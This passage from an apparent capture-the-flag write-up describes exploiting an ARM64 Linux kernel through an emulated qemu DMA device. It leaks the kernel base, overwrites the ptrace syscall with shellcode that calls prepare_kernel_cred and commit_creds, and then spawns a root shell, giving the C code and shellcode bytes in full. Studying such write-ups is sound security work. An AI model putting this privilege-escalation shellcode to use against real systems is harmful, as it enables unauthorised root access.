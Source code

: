 After dumping a page from the IRQ stack on 3 different runs with kaslr disabled and digging around
in the diff, I found the address `0xffff800010938d38` which reliably has a
kernel text address (`_ctype` according to kallsyms). 

At this point, I had program counter control and a kernel base leak. SMEP/SMAP
and KPTI are enabled, so normally from here I would proceed to write a ropchain
and win. However, my PC control gets execution while atomic (IRQ handler), which
significantly increases the complexity required of a ropchain. But also&#x2026;

### Exploitation: DMA is fun

The qemu extension mimics DMA by writing directly to the "physical" (host
virtual) memory of the guest. This means it ignores the virtual permission flags of
those pages, allowing us to write shellcode directly kernel executable memory. I
chose to overwrite `ptrace` as nothing on the vm would be calling that syscall
besides me.

Resolve the needed kernel functions:
```c
    uint64_t * kstack_leak = read_kernel(secfd, 0xffff800010003758, 16);
    printf("##\t%p:%p (%p)\n",0xffff800010003758, kstack_leak[0], kstack_leak[0] - 0x8b8d38);
    uint64_t kernel_base         = kstack_leak[0] - 0x8b8d38;
    uint64_t prepare_kernel_cred = kernel_base + 0x696a8;
    uint64_t commit_creds        = kernel_base + 0x693e0;
    uint64_t __arm64_sys_ptrace  = kernel_base + 0x49c88;
```

Write some simple shellcode:
```
    STP             X29, X30, [SP,#-0x20]!
    LDR x9, = 0x4242424242424242
    mov x0, 0
    BLR x9
    LDR x9, = 0x4343434343434343
    blr x9
    LDP             X29, X30, [SP],#0x20
    ret
```
```c
    uint64_t shellcode[0x200/8];
    char * sc = "\xfd\x7b\xbe\xa9\xe9\x00\x00\x58\x00\x00\x80\xd2\x20\x01\x3f\xd6\xc9\x00\x00\x58\x20\x01\x3f\xd6\xfd\x7b\xc2\xa8\xc0\x03\x5f\xd6\x42\x42\x42\x42\x42\x42\x42\x42\x43\x43\x43\x43\x43\x43\x43\x43";
    memcpy(shellcode, sc, 0x100);
    shellcode[4]  = prepare_kernel_cred;
    shellcode[5]  = commit_creds;
```

Write it to the kernel, and execute:
```c
    write_kernel(secfd, __arm64_sys_ptrace, shellcode, 0x200);
    ptrace(PTRACE_TRACEME, 0, NULL, NULL);
    system("/bin/sh");
```
